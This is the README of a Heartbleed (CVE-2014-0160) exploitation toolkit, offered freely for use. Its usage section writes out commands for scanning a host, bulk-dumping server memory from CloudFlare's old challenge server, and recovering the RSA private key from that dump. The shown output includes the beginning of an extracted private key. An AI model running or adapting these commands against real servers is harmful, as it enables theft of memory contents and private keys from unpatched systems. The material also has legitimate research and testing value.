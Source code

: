 ## OpenSSL Heartbleed (CVE-2014-0160) vulnerability scanner, data miner and RSA key-restore tools.

Author: Einar Otto Stangvik / @einaros 
Url: https://hacking.ventures

Since the cat is long since out of the bag, and others have begun publishing their tools,
I'm putting mine out there too. Hopefully this amplifies the pressure on those that still
haven't patched or upgraded their severs. Others may find the tools of educational value.

Do with them as you please, but do us all a favor: Solve problems instead of creating them.

Based on works by:
- Jared Stafford
- Jeremi M Gosney
- Ben M Murphy 
- ... and many others.

### Usage:

```
# Test vulnerability
$ ./hb.py -p 4433 localhost
localhost:4433 is vulnerable

# Dupm data from CloudFlare's old challenge server
$ ./hb.py -p 443 www.cloudflarechallenge.com -n 0xF000 -l 100 -t 50 -d -o cloudflare-dump.bin
[2014/04/14 10:55:48] Incoming data rate: 85877 kbps
... runs for a while

# Look for prime in the dump
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin
Key size: 128
Data length: 173476834
cloudflare-dump.bin Offset 0xf155ec: p = 13827796798740740191625032142481917804987720337701...

# Extract key once found
$ ./keyscan.py cloudflare.crt cloudflare-dump.bin 0xf155ec
Prime should be at offset: f155ec
Key size: 128

Hexdump of surrounding data:
f151ec: D0 00 00 00 00 00 00 00 00 00 00 00 00 00 30 C0  ..............0.
f151fc: 3C 01 00 00 00 00 00 00 00 00 00 00 00 00 90 8B  <...............
f1520c: D0 00 00 00 00 00 02 00 C3 A3 4D 08 48 47 00 00  ..........M.HG..
...

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAm0AWkVnDx5feOctdC97Ztgvtd25uKKmhjCHpLycmExe1RiRSl/hGIL7f8Fg/
qiUztVm5uXZJ1UG7dzz+9OtTNh+v27BtzPsU3yivHevwAB1mTMtP6bPuXBjzsxRcC9yVcBBWpKBM
...
```

### License

The author can't and won't hold any right to any part of this package. It's based on open ideas,
and shall remain open for all he cares.
